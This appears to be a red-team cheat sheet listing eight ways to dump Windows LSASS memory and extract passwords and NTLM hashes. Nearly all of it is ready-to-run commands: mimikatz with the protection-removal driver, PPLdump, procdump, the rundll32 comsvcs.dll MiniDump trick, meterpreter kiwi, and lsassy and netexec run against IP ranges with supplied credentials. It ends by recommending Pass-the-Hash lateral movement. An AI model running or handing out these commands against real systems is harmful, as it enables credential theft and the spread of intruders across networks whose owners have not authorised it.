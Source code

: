 # Extract credentials from LSASS

## Tools: CrackMapExec/Netexec , lsassy , mimikatz , meterpreter , procdump , PPLDump , GUI

#### 1) LSASS as a Protected Process

 - PPLdump64.exe LSASS.EXE|LSASS_PID lsass.dmp

 - mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "!processprotect /process:lsass.exe:" "!-" (With mimidriver.sys)

#### 2) Procdump

 - Procdump.exe -accepteula -ma lsass.exe lsass.dmp

 - mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"

#### 3) Meterpreter

 - load kiwi

 - creds_all

#### 4) Mimikatz

 - mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"

#### 5) lsassy

 - lsassy -d DOMAIN -u USER -p 'PASSWORD' IP

#### 6) CrackMapExec/Netexec

 - netexec smb IP_RANGE -u USER -p 'PASSWORD' -M lsassy

#### 7) rundll32.exe

 - tasklist | findstr lsass

 - C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump LSASS_PID C:\temp\LSASS.dmp

#### 8) Pypykatz

 - pypykatz lsa minidump lsass.dmp

### With LSASS dumped, you can recover NTLM Hashes as well as clertext credentials to do Lateral Movement via Pass-the-Hash or Pass-the-Key

